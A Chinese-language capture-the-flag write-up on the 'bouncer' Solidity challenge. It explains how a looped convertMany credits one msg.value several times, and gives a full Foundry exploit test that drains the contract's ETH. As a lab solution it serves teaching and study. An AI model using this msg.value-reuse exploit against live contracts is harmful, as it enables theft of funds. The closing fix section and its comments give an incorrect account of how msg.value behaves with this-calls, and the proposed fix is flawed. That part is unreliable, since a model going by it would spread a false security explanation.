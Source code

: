 # bouncer

## 分析

### 1.全局观

- Bounder.sol
  - ERC20Like：接口
  - Bouncer
    - owner机制，需要验证，无法修改owner
    - 抄AAVE的存取款机制，存款可以让别人帮，可以批量存款
    - owner可以执行任何逻辑：delegatecall

- Setup：初始化题目

### 2.任务

将bouncer的ETH余额设置为0

```solidity
	function isSolved() public view returns (bool) {
        return address(bouncer).balance == 0;
    }
```

### 3.详细分析

根据Setup的初始化情况，我们来看一下资产与状态情况：

|         | ETH  | WETH | 状态                |
| ------- | ---- | ---- | ------------------- |
| Setup   | 48   |      | 注册：10WETH，10ETH |
| bouncer | 52   |      | owner=Setup         |
| party   |      |      |                     |

我们要将bouncer的52ETH归零，那么就需要让bouncer发钱出来，可能的方法只有：`payout()`、`claimFees()`、`hatch()`：

- `claimFees()`：需要owner才做，并且从题目(0.8.0)可以看出，owner无法修改，同时0.8.0也意味着不可能有重入、移除的可能性了。此方法废弃。

- `hatch()`：需要owner才能操作，但我们不可能是owner，或者是否可能让合约回调自己内？看完题目知道也没有相关的方法。此方法废弃。

- `payout()`

  - 这个是转账的逻辑，那么本题只可能在转账的逻辑等问题上出考点了。

  - 要调用`payout()`只能通过`redeem()`。虽然`redeem()`可以随意调用，但是余额不足回revert。因此我们必须先存款。

  - 存款方法有两个，一个是普通单个存款`convert()`，一个是为了省gas的批量存款`convertMany()`。`convert()`分析完之后，没啥问题，就是模仿AAVE的机制，再来看一下批量存款`convertMany()`，额这么少代码，应该没问题，不对，等等！这特么好经典的问题：循环 + 存款逻辑，那么msg.value就可以被复用，一份msg.value存多次。

    ```solidity
        function convertMany(address who, uint256[] memory ids) payable public {
            for (uint256 i = 0; i < ids.length; i++) {
                convert(who, ids[i]);
            }
        }
    ```

## 解题

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.0;

import "forge-std/Test.sol";
import "../../src/06.bouncer/Setup.sol";

contract attackTest is Test {
    address constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    string constant weth9_Artifact = 'out/tools/helper_WETH9.sol/WETH9.json';

    Setup public level;
    Bouncer public bouncer;
    WETH9 public weth;

    function setUp() public {
        // 初始化题目
        weth = WETH9(deployHelper_weth(weth9_Artifact));
        vm.label(address(weth), "weth");

        level = new Setup{value: 100 ether}(address(weth));
        vm.label(address(level), "level");
        bouncer = level.bouncer();
    }

    function test_isComplete() public{
        // 我们用 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4 进行攻击
        payable(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4).transfer(20 ether);
        vm.startBroadcast(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4);
        vm.label(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4, "player");

        for(uint256 i = 0; i < 10; i++){
            // entry[msg.sender][0] ~ entry[msg.sender][9]
            bouncer.enter{value: 1 ether}(ETH, 10 ether);
        }
        //此时Bouncer余额：62ETH
        
        // 等待一下，因为不能马上存款
        // require(block.timestamp != entry.timestamp, "err/wait after entering");
        vm.warp(block.timestamp + 1);

        // 构造数组
        uint256[] memory ids = new uint256[](10);
        for(uint256 i = 0; i < 10; i++){
            ids[i] = i;
        }

        // 10 ETH成功存了10次（本来需要100ETH）
        bouncer.convertMany{value: 10 ether}(address(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4), ids);
        //此时Bouncer余额：72ETH

        // 取走72ETH
        for(uint256 i = 0; i < 7; i++){
            bouncer.redeem(ERC20Like(address(ETH)), 10 ether);
        }
        bouncer.redeem(ERC20Like(address(ETH)), 2 ether);

        assertEq(level.isSolved(), true);

        vm.stopBroadcast();
    }

    // 部署WETH
    function deployHelper_weth(string memory what) public returns (address addr) {
        bytes memory bytecode = vm.getCode(what);
        assembly {
            addr := create(0, add(bytecode, 0x20), mload(bytecode))
        }
    }

}
```

## 漏洞修改

```solidity
    function convertMany(address who, uint256[] memory ids) payable public {
        for (uint256 i = 0; i < ids.length; i++) {
            //convert(who, ids[i]); 改成下面的就可以了
            this.convert(who, ids[i]);
        }
    }
```

模拟实验：本题的问题和A合约中的`canBuy()`原理一样

```solidity
pragma solidity 0.8.0;

import "hardhat/console.sol";

contract A{
    uint256 public x = 0;

    function money() public payable {
        require(msg.value == 1 ether, "not enough money");
        x++;
    }

    function canBuy() public payable {
        for(uint256 i = 0; i < 10; i++){
            // 少了this则用的是方法的msg.value，在本次调用永远不变，如果此方法中有其他本合约的payable方法调用，则msg.value会传递进去。
            money();
        }
    }

    function cannotBuy() public payable {
        for(uint256 i = 0; i < 10; i++){
            this.money();
            // 为什么这个不可以运行呢？
            // 因为this是一个对象，每运行一次，自身的msg.value属性就会减去，会更新自己的msg.value，优先级大于方法的msg.value。
            // 而少了this则用的是方法的msg.value，在本次调用永远不变，如果方法中有其他本合约的payable方法调用，则msg.value会传递进去。
        }
    }

    function bCanBuy(B b) public payable {
        b.money{value: msg.value}();
    }

    function bCannotBuy(B b) public payable {
        // 无法购买的原因是没有将msg.value传递过去
        b.money();
    }

    function bMultiBuy(B b) public payable {
        for(uint256 i = 0; i < 2; i++){
            console.log("start buying, my msg.value=",msg.value);
            //b.money{value: msg.value}();   
            //  报错，因为第一次的时候就将this的所有msg.value发过去了，this没钱了，而打印出来的msg.value是方法的msg.value
                // start buying, my msg.value= 2000000000000000000
                // before buy, msg.value= 2000000000000000000
                // after buy, msg.value= 2000000000000000000
                // start buying, my msg.value= 2000000000000000000
                // transact to A.bMultiBuy errored: VM error: revert.
            b.money{value: 1 ether}();
            // 正确
                // start buying, my msg.value= 2000000000000000000
                // before buy, msg.value= 1000000000000000000
                // after buy, msg.value= 1000000000000000000
                // start buying, my msg.value= 2000000000000000000 这里的2ether是方法的msg.value,而实际的this的msg.value只有1ether
                // before buy, msg.value= 1000000000000000000
                // after buy, msg.value= 1000000000000000000
        }
    }
}

contract B{
    uint256 public x = 0;

    function money() public payable {
        console.log("before buy, msg.value=",msg.value);
        require(msg.value >= 1 ether, "not enough money");
        console.log("after buy, msg.value=",msg.value);
        x++;
    }
}
```
